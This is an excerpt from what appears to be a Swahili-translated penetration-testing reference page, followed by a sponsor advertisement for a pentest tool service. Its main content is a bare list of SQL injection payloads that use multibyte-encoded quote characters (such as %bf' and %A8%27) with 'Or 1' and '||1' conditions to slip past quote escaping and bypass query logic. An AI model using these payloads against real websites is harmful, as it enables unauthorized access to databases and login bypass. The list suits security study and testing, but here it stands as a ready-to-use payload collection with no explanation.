 ```
%bf' Or 1-- 2
%A8%27Or(1)-- 2
%8C%A8%27Or(1)-- 2
%bf'Or(1)-- 2
%A8%27||1-- 2
%8C%A8%27||1-- 2
%bf'||1-- 2
%A8%27) Or 1=1-- 2
%8C%A8%27) Or 1=1-- 2
%bf') Or 1=1 -- 2
%A8%27) Or 1-- 2
%8C%A8%27) Or 1-- 2
%bf') Or 1-- 2
%A8%27)Or(1)-- 2
%8C%A8%27)Or(1)-- 2
%bf')Or(1)-- 2
%A8%27)||1-- 2
%8C%A8%27)||1-- 2
%bf')||1-- 2
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Pata mtazamo wa hacker kuhusu programu zako za wavuti, mtandao, na wingu**

**Pata na ripoti kuhusu udhaifu muhimu, unaoweza kutumiwa kwa faida halisi ya biashara.** Tumia zana zetu zaidi ya 20 za kawaida kupanga uso wa shambulio, pata masuala ya usalama yanayokuruhusu kupandisha mamlaka, na tumia matumizi ya kiotomatiki kukusanya ushahidi muhimu, ukigeuza kazi yako ngumu kuwa ripoti za kushawishi.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}


{% hint style="success" %}